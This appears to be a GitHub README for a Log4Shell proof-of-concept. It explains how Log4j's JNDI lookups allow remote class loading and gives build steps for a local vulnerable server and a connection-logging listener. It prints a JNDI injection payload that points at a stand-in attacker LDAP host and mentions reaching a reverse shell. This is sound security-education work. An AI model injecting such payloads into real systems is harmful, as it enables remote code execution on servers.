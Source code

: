 Here are the points to note:
* Log4j 2 has implicit lookups that evaluates all valid patterns that looks like ```${...}```.
* It's very easy for an attacker to send a value resembling such a pattern. So much so that any values, as common as usernames, header values, device names, cookie contents, file names, exceptions, file contents etc. which are under attacker's control, can be sent with a valid lookup pattern leading to those variables being evaluated, resolved and logged.
* JNDI injection based RCE is a well known attack vector.
* Log4j has a JNDI lookup with pattern which looks like ```${jndi:<protocol>://...}```. It fetches and loads compiled Java classes from remote targets.

Basically, everything that is needed for an attacker to send a JNDI injection payload to remote endpoints are present. An attacker can craft a payload like ```${jndi:ldap://directory.attacker-controlled-domain.com/foo/bar}``` and inject it in practically anything that is being logged using Log4j on the server.

That above payload will visit the directory server running in the ```directory.attacker-controlled-domain.com``` host and query for ```/foo/bar``` directory. The directory server might return a directory name which can be a valid URL pointing to a compiled class file - Example: ```http://class.attacker-controlled-domain.com/Exploit.class```. Then the Java lookup in Log4j will try to fetch that compiled class and load it in the JVM runtime. The any static code blocks will be executed instantly when the class is loaded and therefore might allow an attacker to create a bind or reverse shell to the host server.

### Exploit PoC

Follow the steps to get a PoC setup working. First step is to run a vulnerable web server:

1. Clone this repo ```git clone https://github.com/sschakraborty/SecurityPOC.git```
2. Change current directory into *log4shell* - ```cd log4shell```
3. Build using Maven - ```mvn clean package -D skipTests```
4. Run the vulnerable web server fat JAR - ```java -jar target/log4shell-1.0.0-SNAPSHOT-fat.jar```
5. This web server will be listening on port ```8888``` and will be appending logs into two appenders. One appender is the console appender, which is vulnerable. The other one is the rolling file appender which is not vulnerable as ```%m{nolookups}``` in its configuration, disables the lookup feature.

Second step is to run a directory server that understands LDAP protocol. This project has a ```directory_server.py``` file under ```exploit``` directory. It's a simple Python socket program that logs any incoming socket connection. That should be enough for a Security Engineer to understand and detect, if the vulnerable web server actually sent an LDAP query to the socket program.

To run an actual dummy LDAP server, the project [Marshalsec](https://github.com/mbechler/marshalsec) by [Moritz Bechler](https://github.com/mbechler) can be used.

To run the directory server and see the exploit in action:

1. Run directory server using Python 3 - ```python3 exploit/directory_server.py```
2. Run the exploit - ```python3 exploit/exploit.py```
3. The vulnerable web server's console appender will evaluate the lookup meta-variables that were sent from the ```exploit.py``` file via HTTP requests.
4. The last HTTP request in ```exploit.py```, which is a JNDI injection payload, should force the vulnerable web server to make an LDAP query to the directory server. The directory server should log an incoming connection from the vulnerable web server.


